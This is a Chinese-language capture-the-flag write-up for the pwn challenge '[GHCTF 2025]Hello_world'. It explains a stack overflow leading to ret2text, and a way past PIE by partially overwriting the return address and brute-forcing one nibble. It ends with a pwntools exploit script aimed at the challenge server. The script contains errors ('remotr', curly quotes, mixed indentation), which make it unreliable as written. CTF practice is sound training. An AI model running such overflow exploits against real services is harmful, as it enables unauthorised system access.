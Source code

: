 ## 基本信息

- 题目名称： [GHCTF 2025]Hello_world
- 题目链接： https://www.nssctf.cn/problem/6543
- 考点清单： 栈溢出，ret2text，PIE保护，partial overwrite，未知位爆破
- 工具清单： 无
- payloads： 详见本文末尾

## 一、看到什么

### 第一轮

- 一如往常pwntools查看文件

![pwntools.png](./images/GHCTF_2025Hello_worldpwntools.png)

- 发现**PIE保护**

![pwntools-result.png](./images/GHCTF_2025Hello_worldpwntools-result.png)

- gdb查看函数，发现后门函数**backdoor**，同时动态链接库里发现**read**、**system**，盲猜**ret2text**

![gdb-info-func.png](./images/GHCTF_2025Hello_worldgdb-info-func.png)

## 二、想到什么解题思路

### 第一轮

- **ret2text**：**read**函数溢出，劫持程序流，寻找调用**read**的函数；同时找**system**调用处和**“/bin/sh”**字符串处

- **PIE绕过**：尝试寻找**泄露函数地址**的地方

### 第二轮

- 局部覆盖地址

### 第三轮

- 局部覆盖，未知位爆破

## 三、尝试过程和结果记录

### 第一轮

- GDB反汇编查看几个函数
- **init**函数，简单的设置缓冲区

![init.png](./images/GHCTF_2025Hello_worldinit.png)

- **out**函数，估计是banner，没涉及变量，只有堆上的字符串

![out.png](./images/GHCTF_2025Hello_worldout.png)

- **func1**，调用了**read**，且很明显存在0x20长度的溢出，vuln已找到。

![func1.png](./images/GHCTF_2025Hello_worldfunc1.png)

- 查看main函数

![main.png](./images/GHCTF_2025Hello_worldmain.png)

- 看一下之前找到的后门函数**backdoor**，调用系统命令行，很完美的后门，跳转目标地址已找到。

![backdoor.png](./images/GHCTF_2025Hello_worldbackdoor.png)

- 转了一圈发现全程没有泄露过地址，泄露地址的思路泡汤。

### 第二轮

- 发现后三位地址固定，尝试直接篡改栈内ret地址的后三位

![payload1.png](./images/GHCTF_2025Hello_worldpayload1.png)

- 思路确定，动态调试分析padding
- 确定调用处地址

![stack1.png](./images/GHCTF_2025Hello_worldstack1.png)

- 确定read函数存储位置，并借助调用处地址计算：
	- padding = 前两行 4字符 * 4组 * 2行 + 第三行 4字符 * 2组 = 40字符

![stack2.png](./images/GHCTF_2025Hello_worldstack2.png)

- 更新payload，顺便更正红框内的地址为小端存储形式

![payload2.png](./images/GHCTF_2025Hello_worldpayload2.png)

- 尝试运行，失败

![try1.png](./images/GHCTF_2025Hello_worldtry1.png)

### 第三轮

- 这次直接手搓一下输入，动态调试看看输入进去长什么样

![try2.png](./images/GHCTF_2025Hello_worldtry2.png)

- 发现和预期输入有差异，0a是换行符，使用send()代替sendline()即可消除；倒数第四个位不一定是0，而我们的输入为\x09，导致的不符
- 尝试爆破倒数第四位的地址

![payload3.png](./images/GHCTF_2025Hello_worldpayload3.png)

- 写成死循环了......改下；再改下payload，p64就把前面全覆盖上了

![payload4.png](./images/GHCTF_2025Hello_worldpayload4.png)

- flag到手

![flag.png](./images/GHCTF_2025Hello_worldflag.png)

## 四、总结与反思

- 解题收获：**PIE保护**的新绕过方式——**partical overwrite** + 爆破未知位
- 不足之处：在构造payload上有一些误操作导致绕了很大一个圈子
- 改进措施：先判断需要构造的**输入结构**，不要无脑p64格式

## 五、本地工具环境配置

- pwntools

```bash
pip install pwntools
```

## 六、Payload

```python
from pwn import *

lc = "./hello"
rmt = "node6.anna.nssctf.cn"
port = 27373

ELF(lc)

p = remotr(rmt, port)
padding = 40
#addr_last_3bit = 0x9c1
payload = padding * b'A' + b'\xc1' + b'\x09'

while 1:
    try:
        p.sendafter(“pwner”, payload)
        sleep(2)
        p.send("ls")
        sleep(1)
    except Exception:
		p.close()
    
	else:
        p.interactive()
        break

```

